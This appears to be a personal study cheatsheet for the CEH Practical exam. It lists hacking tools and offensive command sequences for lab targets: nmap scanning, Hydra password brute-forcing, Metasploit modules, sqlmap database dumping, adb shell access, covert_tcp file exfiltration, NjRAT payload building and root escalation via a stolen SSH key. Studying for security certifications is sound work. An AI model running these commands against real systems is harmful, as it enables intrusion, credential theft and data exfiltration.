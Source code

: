 # CEH_PRACTICAL
This my cheatsheet that i used to study for CEH_PRACTICAL
Tools
1.	Nmap/Zenmap
2.	Wireshark
3.	Metasploit
4.	Hydra
5.	Cryptool / BCTextEncoder
6.	Veracrypt
7.	Burp suite
8.	Hydra
9.	Hashes.com/HashMyfiles/HashCalc
10.	Snow steganography/OpenStego/Covert TCP
11.	SQL Injection / nslookup/sqlmap/nikto
12.	Android Debugging Bridge (adb)
# PRACTICAL TIME
1.	**Network Scanning & Vulnerability Assessment**
	Find Live hosts (nmap /netdiscover)
	Sudo nmap [IP address] – for exam (CEH Practical)
	Sudo nmap –sC –sV –v –A –p– –O –T4 [IP Address range] – more aggressive deep scanning
	Sudo nmap –sV –script vuln [IP Address] – finding vulnerabilities in a host (-oX save file)
	Sudo nmap –sP 192.168.1.*:- when scanning a large network

	Find open ports & services running on those ports (nmap)
	Sudo nmap –sC –sV –v –p– –T4 [IP Address range]
2.	**Enumeration**
	ftp port 21 – used to transfer files between computers (file sharing)
	check IP to see which is running ftp
	nmap –sC –p 21 [IP address]
	ftp [IP] :- you need to bruteforce the password login credentials using hydra tool
	hydra –L username.txt –P password.txt [IP address] ftp (  the lists of password & usernames are given in the exam)
	login ftp [IP address]
	enter password and username from the one that you brute forced
	ftp>ls
	ftp> get secret.txt (used to download the file into your local machine)
	root@attacker:~#ls
root@attacker:~#cat secret.txt (to view the file contents)

	SNMP port 161– used to monitor and manage network devices e.g. routers, switches, servers etc.
	Nmap –sP [IP /24]
	Nmap –sU [IP Address] (scan for UDP ports on the target machine) 
	snmp-check [ip address] NB take note of the UDP port to listen to)
	check NSE scripts online on nmap.org
	nmap –sU –p 161(UDP port) –script=snmp-processes [IP Address] ( finding running process using nmap
	msfconsole (start Metasploit to find valid strings)
	msf5>search snmp
	msf5>use auxiliary/scanner/snmp/snmp_login
	msf5 auxiliary(scanner/snmp/snmp_login)> show options
	msf5 auxiliary(scanner/snmp/snmp_login)>set RHOSTS [IP Address]
	msf5 auxiliary(scanner/snmp/snmp_login)>exploit
	SNMP check interfaces
	nmap –sU –p 161(UDP port) –script=snmp-interfaces [IP Address] ( finding running process using nmap
	snmp-check [IP address]
SMB Enumeration (SMB request services from server programs, it’s a protocol that allows apps on a computer read/write files)
	Nmap [target IP] (smb running on port 445)
	Nmap –p 445 --script smb-enum-shares [IP address] (enumerating files) shares files with details permissions
	Connecting GUI method (smb://[IP] on web)
	Nmap –p 445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=smbserver_771 [IP address] (enumerating users)
	Nmap –p 445 --script smb-enum-groups --script-args smbusername=administrator,smbpassword=smbserver_771 [IP address] (enumerating groups)
	Nmap –sC –sV –A –T4 –p445 [IP Address] (enumerating security levels)
	Nmap –p 445 --script smb-enum-services --script-args smbusername=administrator,smbpassword=smbserver_771 [IP address] (enumerating services)
	
	Making an RDP session and Enumerate RDP service
	Nmap [Ip address] port 3333 or 3389 is for RDP
	Msfconsole
	msf5> search rdp
	msf5>use auxiliary/scanner/rdp/rdp_scanner
	msf5 auxiliary(scanner/rdp/rdp_scanner)> set RHOSTS [target IP]
	msf5 auxiliary(scanner/rdp/rdp_scanner)>set RPORT 3333
	msf5 auxiliary(scanner/rdp/rdp_scanner)>exploit (detected rdp on ….. confirmed rdp is running)
	hydra –L {path} –P{path} rdp://[IP address] –s 3333 (brute force passwords & save them)
	root@attacker:~# xfreerdp /u:administrator /p:etcect /v:[ip]:3333(create an rdp session) 
	Enumerate NetBIOS port 137(UDP: TCP)/138(UDP)/139(TCP) facilitates and allows computer to connect over the local network, access files & resources such as printers & files
	Check ip first by ip a
	Nmap –sP [IP address]
	Nmap –sV --script nbstat.nse [IP address]

3.	**Hacking Web Application & Android** 
	Wpscan
	Wpscan in Kali Linux Wpscan –h will show you all the commands you can use
	Wpscan –url [copy url http://192.168.0.1] --enumerate u  (u for users) 
	Wpscan –url (or just –u for url) [copy url http://192.168.0.1] --enumerate u vp (vp for vulnerable plugins & u for users) 
	Sudo Wpscan --password-attack xmlrpc –t 20 –U (usernames) –P (password list)  --url http://[IP] --random-user-agent (if necessary)- bruteforce for passwords
	Sqlmap for sql injections–Using DVWA website
	Go to command execution
	Enter an IP address and submit :- [IP] | pwd to see the directory that I am
	UserID enter 1
	Open burp Suite
	Go to terminal in parrot : sqlmap –r req.txt –dbs the file is in desktop
	Sqlmap –r req.txt –D dvwa ( name of the data base )
	Sqlmap –r req.txt –D dvwa --tables --columns   ( Details )
	Sqlmap –r req.txt –D dvwa --dump (contents of the tables)
	Burp Suite
	Check on http requests and proxy (use this to save  cookies as req.txt)
	Android Pentest (ADB) – a tool that bridge the communication between your device and computer ( use windows)
	‘adb devices’ command will show you all the devices connected
	adb connect [IP address]:5555 ( just give any port) 
	adb shell ( you are in the device )
	hit ls to see where you are in the device
	cd sdcard/
	cat secrete.txt
4.	**Traffic Sniffing**
•	Wireshark
Pcap analysis – Filtering packets
o	tcp.flags.syn
o	Follow streams red part is our request and the blue part is the server response
o	To see if there is a txt file – export object got to file, export object of http and save it 
(DOS, DDOS)
5. **Steganography**
•	SNOW – for hiding and extracting hidden data from a text file
o	Open SNOW.EXE (NB. you have to write in uppercase)–C (compile) –m “this is the secret message” –p ‘’give the password any’’ Secret.txt (this is the secrete file) Hiddensecret.txt (is the file you want to be the output)
o	To extract the hidden file-: SNOW.EXE –C -p “given password any” Hiddensecret.txt and then hit enter.
•	OpenStego – for hiding and extracting hidden data from an image file
o	Open the OpenStego tool
o	There 2 options, Hiding data and extracting the secret
o	Follow options-: they are self-explanatory
o	When extracting data the same. In an exam you can be told to extract a file and you will find a key. Open hashes.com on browser and then retrieve the key
•	Covert – for hiding data in TCP/IP packet headers
o	Download covert_tcp file in parrot
o	Cd Downloads
o	Then ~/Downloads/Covert_tcp $ ls there will be 3 files covert_tcp, covert_tcp.c & secret.txt and then-: rm covert_tcp to remove it in parrot
o	Enter a command: cc –a covert_tcp covert_tcp.c 
o	  ./covert_tcp  –source [IP Addrr e.g. 192.168.1.1] ( source Ip)  –dest [IP Addrr] (destination IP) –source_port 9999 ( set any port) –dest_port 8888 –file secret.txt  -: this is done from source computer
o	./covert_tcp  –source [IP Addrr: 192.168.1.1] ( source Ip)  -source_port 8888 –server –file receive.txt (received file as)
   6.	**Cryptography – practice of securing information so that it’s only accessible to authorised users only. The goal is to protect sensitive information**
•	HashMyfiles - calculating and comparing hashes of files
o	Open the tool 
o	Drag and drop the files to the HashMyfiles application
o	The change in the background colour may mean that the data has been tempered with or the data in the files is the same
•	Cryptool – encrypting and decrypting of hex data – by manipulating key length
o	Open the app and open file
o	Go to analysis and then symmetric – RC4, a window pops up change the key length maybe to 16bit depends with the qns
•	BCTextEncoder -  encoding and decoding text in file .hex 
o	Open the app
o	Enter passwords to encode the text to hex format
o	To decrypt the hash go to hashes.com online and paste the hash key
•	Crypto Forge – encrypting and decrypting the files
o	Select file & right click
o	Select encrypt. To decrypt the hash go to hashes.com online and paste the hash key
•	Veracrypt – hiding and encrypting the disk partitions
o	Open app and hit create volume option
o	Create an encrypted file container
o	Hidden volume then normal mode then next & select folder then C:\ then file name NB mouse hover hover
o	Go to  App, select mount to retrieve information of the hidden partition, this is do  
7.	**RAT – Remote Access Trojans (ProRat & NjRAT) **
o	If you try and you are getting a response “no connection” it means maybe you have chosen the wrong machine to target or he port you have selected is the wrong one. Or the server is of different tool and you are using a different tool.
o	Using ProRat you open it using attacker machine using the IP address of the victim machine use the default port
o	Click connect and insert password. The password is provided if ProRat is used but if there is no password it means you use either HTTP RAT or NjRAT and you brute force.
o	Click on search files, copy the location and download the file.
o	You can make use of the File Manager option that is GUI
USING NjRAT
o	Using windows 11 as attacker and windows server as victim
o	Use the same default port and click start
o	Click on builder and provide the IP of the attacker machine on the host 
o	Click build and it will create server.exe file and save it e.g. on desktop
o	Share the file on the share folder (Desktop)then go to the server victim machine
o	Run the .EXE file 
o	Switch back to attacker ,machine and you can see the session has been opened 
o	You can right click on the session and use even RDP 
8.	**Privilege escalation**
o	ssh user1@[IP Addrr] –p(port) hit Y to agree and then enter the password you are provided or use hydra to brute force the password
o	If you hit the command whoami it shows you the user
o	 Sudo –L it shows you which users are there 
o	Go to the desired directory and do ls then it shows you the file, if you hit cat flag.txt you want to retrieve info in the file
o	Sudo –u user2 /bin/bash now you are logged in as user2 then go to the desired directory
o	This is horizontal privilege escalation
Escalate to root user
o	ls la shows all users
o	cd /root (access denied)
o	cd .ssh
o	ls
o	cat id_rsa you get ssh private key an copy 
o	nano id_rsa and then paste the key (in our local machine)
o	chmod 600 id_rsa (give permission to this file)
o	ssh root@[target IP] –p (port) –i  id_rsa
o	ls 
o	cat flag.txt
Nikto- nikto –h http://[IP Address]:80 (you can run on port 80)
